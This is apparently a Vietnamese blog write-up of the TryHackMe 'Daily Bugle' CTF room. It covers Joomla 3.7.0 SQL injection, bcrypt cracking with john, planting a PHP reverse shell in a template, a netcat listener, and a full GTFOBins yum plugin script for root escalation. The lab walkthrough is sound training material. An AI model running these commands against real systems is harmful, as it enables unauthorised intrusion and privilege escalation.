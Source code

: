 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Daily Bugle"
date: "2021-10-24"
tags: [
    "tryhackme",
    "web",
    "linux",
    "ssh",
    "wget"
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2021-10-24-THM-Daily-Bugle/1.webp)

Xin chào, Lẩu đây. Hôm nay tôi sẽ giải CTF [Tryhackme - Daily Bugle](https://tryhackme.com/room/dailybugle). Géc gô!!!

## Reconnaissance

Vẫn như thông thường thôi, việc đầu tiên cần làm là quét cổng. 

```python
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   syn-ack MariaDB (unauthorized)
```
Với port 80 tôi thấy có path */joomla/*, vậy là web này được buil trên Joomla CMS, và nếu qua path /administrator/ thì tôi sẽ vào được login page joomla. Tuy nhiên với kiến thức hạn hẹp, phải loay hoay 1 lúc lâu tôi mới tìm ra được version joomla đang chạy trên machine này. 

Lội qua 1 đống tool thì tôi tìm được thằng này: [juumla](https://github.com/oppsec/juumla.git) giúp check version cũng như tìm find backup hay config, khá tiện. 
```python
┌──(neo㉿kali)-[~/juumla]
└─$ python main.py -u http://10.10.91.181
jUuMlA - 0.1.4
most overrated joomla scanner
> Checking if target is running Joomla... 
> Running Joomla version scanner... [1/3] 
> Joomla version is: 3.7.0 
> Running Joomla vulnerabilities scanner... [2/3] 
> Joomla! 3.7 - SQL Injection 
> Vulnerabilities scanner finished [2/3] 
```
Check trên [exploit-db](https://www.exploit-db.com/exploits/42033) Tôi có 1 SQLi, chạy thử [sqlmap](https://github.com/sqlmapproject/sqlmap) nhưng nó quá lâu (lâu vô hạnnnn =.=). Vậy nên tôi thử tìm trên github xem có payload joomla version 3.7.0 không. Và nó ở [đây](https://github.com/stefanlucas/Exploit-Joomla.git). 

Clone nó về và chạy với IP machine và tôi có luôn user trong 1 phút, phí mất 15 phút ngồi chờ thằng sqlmap, ngẫn quá :sweat:  
```python
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```
Ném thằng hash này vào 1 file vào dùng john để decrypt nó.
```python
┌──(neo㉿kali)-[~]
└─$ sudo john hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:43 13.62% (ETA: 04:25:48) 0g/s 78.57p/s 78.57c/s 78.57C/s piccolo..yahweh
spiderman123     (?) 
```
## Upload reverse shell
Login vào joomla để upload shell. Dạo quanh 1 lúc thì tôi thấy template là nơi có thể upload shell vì nó sẽ là thứ hiện ra cho người dùng khi họ truy cập vào trang web. 

Sửa file php có sẵn trong template thành reverse shell php, shell này tôi lấy từ [pentestmonkey](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), sửa listen host và port thành ip machine của mình.

![upload-shell](/assets/img/2021-10-24-THM-Daily-Bugle/2.webp)

Tạo listener bằng netcat: `nc -lnvp 2402` sau đó truy cập vào file vừa sửa: `http://IP-MACHINE/templates/beez3/index.php`

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402
listening on [any] 2402 ...
connect to [10.18.3.74] from (UNKNOWN) [10.10.71.145] 37496
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 23:38:06 up 36 min,  0 users,  load average: 0.03, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 
```
Config lại shell bằng python nhưng không được, trong thư mục __/home__ tôi có thư mục jjameson nhưng không thể truy cập. Tôi sẽ tìm xung quanh xem có password của ông này không. Tôi sẽ ưu tiên các file config vì thường thì các user và passwd sẽ được lưu ở đây. Thêm nữa đây là web được buil trên php nên tôi sẽ thử tìm file `config.php` xem có thu được gì đặc biệt không.

Sau khi lần mò trong thư mục lưu trữ web (thường là `/var/www/html/`) tôi tìm thấy 2 file `configuration.php` và `web.config.php`

![jjameson](/assets/img/2021-10-24-THM-Daily-Bugle/3.webp)

```python
su jjameson
Password: nv5uz9r3ZEDzVjNu
id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```
Vào thư mục jjameson và tôi có user flag
```python
[jjameson@dailybugle ~]$ ls
user.txt
```
## Privilege escalation
Lệnh `sudo -l` để kiểm tra xem user jjameson có chạy command nào với quyền root không
```python
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
Tôi lại lượn qua [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) xem cách lên root bằng yum. Do tôi không thấy fpm ở phần a xuất hiện trong machine nên tôi sẽ thử dùng cách b.
```python
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
```python
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# ls /root/root.txt
/root/root.txt
```
## Tổng kết
Qua bài này chúng ta biết thêm về ***Joomla cms***, biết đâu sau này lại có hứng thú tạo web bằng thằng này. Tiếp theo là cách sử dụng ***exploit-db*** để tìm kiếm lỗ hổng trong các phiên bản của ứng dụng, cách sử dụng ***john-the-ripper*** để decrypt file hash. Cuối cùng là cách sử dụng yum để leo thang đặc quyền. Yeah chắc vậy là đủ rồi.





